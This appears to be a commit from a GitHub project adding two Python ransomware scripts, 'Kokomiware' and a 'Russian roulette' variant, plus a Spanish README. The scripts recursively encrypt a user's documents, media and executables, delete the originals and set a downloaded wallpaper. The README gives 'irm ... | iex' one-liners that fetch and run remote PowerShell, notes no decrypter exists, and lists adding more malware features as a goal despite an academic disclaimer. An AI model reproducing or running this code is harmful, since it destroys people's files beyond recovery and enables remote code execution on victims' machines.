

refactor

Changed region(s): [[0.125, 0.0917, 0.875, 0.2139]]

diff --git a/src/code/kokomiware.py b/src/code/kokomiware.py
@@ -1,0 +1,42 @@
+#Kokomiware 2.0
+import os
+import glob
+import secrets
+import string
+from cryptography.fernet import Fernet
+
+def chwall():
+    import ctypes
+    import urllib.request
+    url = "https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/resources/yfak.png"
+    wal_path = os.path.expanduser('~\\AppData\\Local\\Temp\\yfak.png')
+    urllib.request.urlretrieve(url, wal_path)
+    ctypes.windll.user32.SystemParametersInfoW(20, 0,wal_path, 3)
+
+def kokomi():
+    ransomExt = ".kokomi"
+    fileExtensions = [".jpg", ".png", "jpeg", ".mkv", ".mp4", ".zip", ".rar", ".m4a", ".mp3", ".pdf", ".docx", ".pptx", ".xlsx", ".txt", ".exe", ".lnk"]
+    prk = os.path.expanduser('~\\AppData\\Local\\Temp\\.sngmy.png')
+    key = Fernet.generate_key()
+    with open(prk,"wb") as sk:
+        sk.write(key)
+        sk.close()
+    token = Fernet(key)
+    userdir = os.path.expanduser('~')
+    for path in fileExtensions: 
+        for file in glob.glob(f'{userdir}/**/*{path}'):
+            #read files
+            with open(file,"rb") as f:
+                data = f.read()
+                #print(data)
+                f.close()
+            #Create new file
+            encfile = file + ransomExt
+            kenc = token.encrypt(data)
+            with open(encfile,"wb") as nf:
+                nf.write(kenc)
+                nf.close()
+            os.remove(file)
+    chwall()
+
+kokomi()

diff --git a/src/code/kokomiware-pyaes.py b/src/code/kokomiware-pyaes.py
@@ -1,0 +1,37 @@
+#Kokomi Russian Roulette version 0.1
+import os
+import random
+import glob
+import secrets
+import string
+import pyaes
+from base64 import b64encode
+
+def kokomi():
+    ransomExt = ".kokomi"
+    fileExtensions = [".jpg", ".png", ".mkv", ".mp4", ".zip", ".rar", ".m4a", ".mp3", ".pdf", ".docx", ".pptx", ".xlsx", ".txt", ".exe"]
+    bullet = random.randint(1,6)
+    if 1 == bullet:
+        print("You are dead")
+        key = os.urandom(16)
+        token = b64encode(key).decode("utf-8")
+        print(token)
+        userdir = os.path.expanduser('~')
+        for path in fileExtensions: 
+            for file in glob.glob(f'{userdir}/**/*{path}'):
+                #read files
+                with open(file,"rb") as f:
+                    data = f.read()
+                    #print(data)
+                    f.close()
+                #Create new file
+                encfile = file + ransomExt
+                aes = pyaes.AESModeOfOperationCTR(key)
+                kenc = aes.encrypt(data)
+                with open(encfile,"wb") as nf:
+                    nf.write(kenc)
+                    nf.close()
+                os.remove(file)
+    else:
+        print("You are save")
+kokomi()

diff --git a/README.md b/README.md
@@ -1,39 +1,47 @@
-# Kokomi Russian Roulette
-<p align="center">
-<img src="resources/header.png" alt="drawing" width="500"/><br>
-</p>
+# Kokomiware 
 
-## What is?
-It is a simple ransomware, with the idea of being a game inspired by the classic Russian roulette. 6 cabins, 1 chance to be encrypted, would you dare to play?
-## Warning
-This software is licensed under GPL3. But under no circumstances should it be used for evil. Its purpose is purely academic for the study of malware development. I disclaim any responsibility for misuse of this software.
-## Usage
-**This script only works in Windows OS, please only perform tests on your own virtual machine.**<br>
+## ¿Que es?
+Kokomiware es un simple ransomware hecho en python.
+
+## Advertencia
+Este software esta bajo la licenia GPLV3, bajo ninguna circunstancia deber ser utilizado con malos fines, su proposito es meramente academico, para el estudio y desarrollo de malware. Me deslindo de cualquier mal uso que se le pueda dar.
+
+## Uso
+
+**Kokomiware esta pensado solo para funcionar en sistemas operativos de windows, pero podria adaptarse a sistemas UNIX**<br>
 <br>
-- One line with powershell
+- One line en powershell para el modo directo
 ```powershell
-irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/krr-oneline.ps1 | iex
+irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/direct.ps1 | iex
 ```
-- Normal Usage
+- One line en powershell para el modo ruleta
 ```powershell
-$ .\kokomi-russian-rulette.exe
+irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/roulette.ps1 | iex
 ```
-- Dev<br>
-  I recommend using a python virtual enviroment
+
+- Uso normal en CLI con el ejectuable.
+```powershell
+.\kokomiware.exe
+```
+- Desarrollo<br>
+
+Recomiendo usar un entorno virtual de python
+
 ```console
-#Install dependecies
-$ source env/Scripts/activate
+#Instalando dependecias y ejecutando el codigo
 $ pip install -r requirements.txt
 $ python krr-fernet.py
 ```
-## Decrypt files
-The decryption program is not yet created, but is in process.<br>
-KRR creates a random key for each run, this is stored in the $env:temp directory or also known as %temp%. The key is saved as a ``sngmy.png`` file.
+## Desencriptar archivos
 
-## To do list
-- [ ] Create decrypter program
-- [ ] Optimize execution times
-- [ ] Create port for C++ or C
-## Inspiration:
-- This kokomiware was inspired in [NaGa](https://github.com/ic4rta/NaGa)
-- [Sangonomiya Kokomi](https://genshin-impact.fandom.com/wiki/Sangonomiya_Kokomi) (One of my favorite characters from Genshin Impact)
+Caracteristica en construccion...<br>
+Llave en: `$env:temp\snmgy.png`
+
+## Lista de cosas por hacer
+- [ ] Optimizar tiempos de ejecucion en python.
+- [ ] Crear version para C o C++.
+- [ ] Añadir mas funciones de malware.
+- [ ] Crear diseño de ejecucion por fases.
+
+## Inspiracion:
+- [Sangonomiya Kokomi](https://genshin-impact.fandom.com/wiki/Sangonomiya_Kokomi) (Uno de mis personajes favoritos de Genshin Impact)
